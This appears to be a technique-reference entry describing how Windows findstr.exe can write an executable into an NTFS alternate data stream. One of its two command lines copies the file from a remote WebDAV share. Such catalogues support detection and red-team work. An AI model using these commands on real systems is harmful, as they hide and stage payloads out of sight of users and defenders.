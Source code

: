 ## Findstr.exe

* Functions: Add ADS

```
findstr /V /L W3AllLov3DonaldTrump c:\ADS\file.exe > c:\ADS\file.txt:file.exe    

findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe    
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Full path:
```
c:\windows\system32\findstr.exe
c:\windows\sysWOW64\findstr.exe
```

Notes:
Some specific details about the binary file.


 
